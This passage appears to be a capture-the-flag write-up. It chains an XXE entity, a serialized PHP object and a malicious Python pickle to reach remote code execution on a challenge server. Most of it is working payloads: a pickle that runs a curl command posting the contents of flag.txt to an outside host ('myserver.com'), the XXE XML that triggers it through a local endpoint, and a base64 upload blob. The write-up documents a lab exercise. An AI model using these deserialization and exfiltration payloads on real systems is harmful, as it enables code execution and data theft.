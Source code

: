 ```
(iapp
Status
p1
(dp2
S'message'
p3
S'Maintenance mode: off'
p4
sS'maintenance'
p5
I00
Sb.
```

Therefore, we should try and update the status with a “malicious” pickle!

Sending through a valid formed pickle to /update-status?status=<base64 pickle>&debug=1 resulted in the message:

```
A new status has been loaded. Automatic reloading not implemented yet!
```

There was no impact to the /status page unfortunately (a malformed pickle would show error output), this means we have to work blind, lucily this “malicious” pickle payload generator worked!  So our strategy going forward was to use this with curl commands:
https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd

Ran as:
```
# python pickle.py 'curl -X POST -d "|$(cat flag.txt)|" myserver.com'
Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIFBPU1QgLWQgInwkKGNhdCBmbGFnLnR4dCl8IiBteXNlcnZlci5jb20nCnAyCnRScDMKLg==
```


Add to php payload:

```
$test->config_raw = '<?xml version="1.0"?>
<!DOCTYPE root
[
<!ENTITY foo SYSTEM "php://filter/convert.base64-encode/resource=http://localhost:1337/update-status?status=Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIFBPU1QgLWQgInwkKGNhdCBmbGFnLnR4dCl8IiBteXNlcnZlci5jb20nCnAyCnRScDMKLg==&debug=1">
]><test><toptext> &foo;</toptext></test>';
```

New mypack file to upload:
```
YToxOntpOjA7TzoxMDoiQ29uZmlnRmlsZSI6MTp7czoxMDoiY29uZmlnX3JhdyI7czozMTA6Ijw/eG1sIHZlcnNpb249IjEuMCI/Pg0KPCFET0NUWVBFIHJvb3QNClsNCjwhRU5USVRZIGZvbyBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9aHR0cDovL2xvY2FsaG9zdDoxMzM3L3VwZGF0ZS1zdGF0dXM/c3RhdHVzPVkzQnZjMmw0Q25ONWMzUmxiUXB3TVFvb1V5ZGpkWEpzSUMxWUlGQlBVMVFnTFdRZ0lud2tLR05oZENCbWJHRm5MblI0ZENsOElpQnRlWE5sY25abGNpNWpiMjBuQ25BeUNuUlNjRE1LTGc9PSZkZWJ1Zz0xIj4NCl0+PHRlc3Q+PHRvcHRleHQ+ICZmb287PC90b3B0ZXh0PjwvdGVzdD4iO319
```

